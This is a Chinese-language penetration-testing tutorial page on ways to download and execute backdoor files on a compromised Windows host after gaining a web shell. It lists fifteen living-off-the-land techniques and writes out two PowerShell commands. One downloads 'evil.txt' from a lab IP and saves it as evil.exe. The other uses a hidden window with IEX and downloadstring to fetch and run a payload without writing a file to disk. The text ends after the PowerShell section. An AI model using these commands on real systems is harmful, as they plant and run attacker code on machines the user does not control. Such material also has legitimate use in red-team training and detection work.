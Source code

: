 # 第5篇：Windows命令行文件下载方式汇总

当我们通过Web渗透获取了一个Shell，而且目标主机是Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现Windows文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式\*\***。\*\*另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，\*\***本文收集了15种常见的文件下载执行的方式，并结合具体案例\*\*，让我们一起来看看是怎么实现的吧。

* PowerShell
* Bitsadmin
* certutil
* wget
* ipc$文件共享
* FTP
* TFTP
* WinScp
* msiexec
* IEExec
* mshta
* rundll32
* regsvr32 
* MSXSL.EXE
* pubprn.vbs

**1、PowerShell**

PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

```text
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
```

远程执行命令：

```text
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```

![](../.gitbook/assets/20200413-1.png)
